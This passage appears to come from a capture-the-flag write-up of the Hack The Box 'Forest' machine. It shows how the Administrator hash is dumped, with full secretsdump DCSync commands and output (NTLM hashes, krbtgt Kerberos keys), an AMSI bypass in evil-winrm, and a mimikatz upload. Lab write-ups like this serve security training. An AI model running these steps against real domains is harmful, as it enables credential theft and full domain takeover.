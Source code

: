 ## Dumping Admin Hash

### 1. Using secretsdump


We can initiate a DCSync attack on our local attack machine using [Impacket's](https://github.com/fortra/impacket) `secretsdump` script as shown:

```bash
➜  impacket-secretsdump htb.local/pwned:'Pwn3d!!'@10.10.10.161

Impacket v0.11.0 - Copyright 2023 Fortra

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::

-- Redacted --

[*] Kerberos keys grabbed
htb.local\Administrator:aes256-cts-hmac-sha1-96:910e4c922b7516d4a27f05b5ae6a147578564284fff8461a02298ac9263bc913
htb.local\Administrator:aes128-cts-hmac-sha1-96:b5880b186249a067a5f6b814a23ed375
htb.local\Administrator:des-cbc-md5:c1e049c71f57343b
krbtgt:aes256-cts-hmac-sha1-96:9bf3b92c73e03eb58f698484c38039ab818ed76b4b3a0e1863d27a631f89528b
krbtgt:aes128-cts-hmac-sha1-96:13a5c6b1d30320624570f65b5f755f58
krbtgt:des-cbc-md5:9dd5647a31518ca8

-- Redacted --

[*] Cleaning up... 
```


Here, we're mostly intrested in the Administrator hash.


### 2. Using Mimikatz

> If you're using kali, grab yourself the mimikatz binary from:
>```bash
> /usr/share/windows-resources/mimikatz/Win32/mimikatz.exe
> /usr/share/windows-resources/mimikatz/x64/mimikatz.exe
>```


While logged in as the created user, bypassed AMSI & uploaded mimikatz on the target, simply execute the following to dump the Administrator NTLM hash.


```powershell
➜  evil-winrm -i 10.10.10.161 -u pwned -p 'Pwn3d!!' -s '/home/oste/Desktop/CTF/HTB/Forest' -e '/home/oste/Desktop/CTF/HTB/Forest' -l '/home/oste/Desktop/CTF/HTB/Forest'

                                        
Evil-WinRM shell v3.5

*Evil-WinRM* PS C:\Users\pwned\Documents> Bypass-4MSI
                                        
Info: Patching 4MSI, please be patient...
                                        
[+] Success!
*Evil-WinRM* PS C:\Users\pwned\Documents> upload /home/oste/Desktop/CTF/HTB/Forest/mimikatz.exe
```